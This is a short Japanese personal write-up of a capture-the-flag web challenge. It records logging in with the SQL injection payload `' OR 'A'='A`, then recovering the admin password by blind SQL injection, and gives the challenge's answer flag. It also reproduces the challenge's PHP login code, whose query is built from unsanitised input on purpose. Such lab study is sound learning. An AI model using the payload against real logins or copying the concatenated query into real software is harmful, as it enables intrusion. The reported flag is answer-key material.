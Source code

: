 # 6
- web
- login問題なので、ネットワークのヘッダ部分とかElementsとかXSS試したけど効かない

# 解答チラ見
- SQLインジェクションらしい。これは個別に調べて自力でやろう。
- id: `admin`, pass: `' OR 'A'='A`で以下のような画面が出てきた。
```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```
- 解答見た
- sqlinjectionの後、blindsqlinjectionで総当りをする必要があるっぽい。これは知識がないと無理なのであきらめ。
- `https://qiita.com/__k_onishi__/items/f0e8d6c8f0b6c6974ed9`
- これに従って6_length.pyを作成すると21とわかった。
- 次は文字を当てに行く
- SQLの文法知ってるかゲーム
- 6_char.pyも作成。
- `FLAG_KpWa4ji3uZk6TrPK`とわかった。
- なぜ48-122なのか？→ASCIIで数字の0-9と小文字大文字のA-Zと記号がいくつか(今回だとアンダーバーとか)が含まれているので。


あとで読む
`http://sekai013.hatenablog.com/entry/2015/03/26/224413`

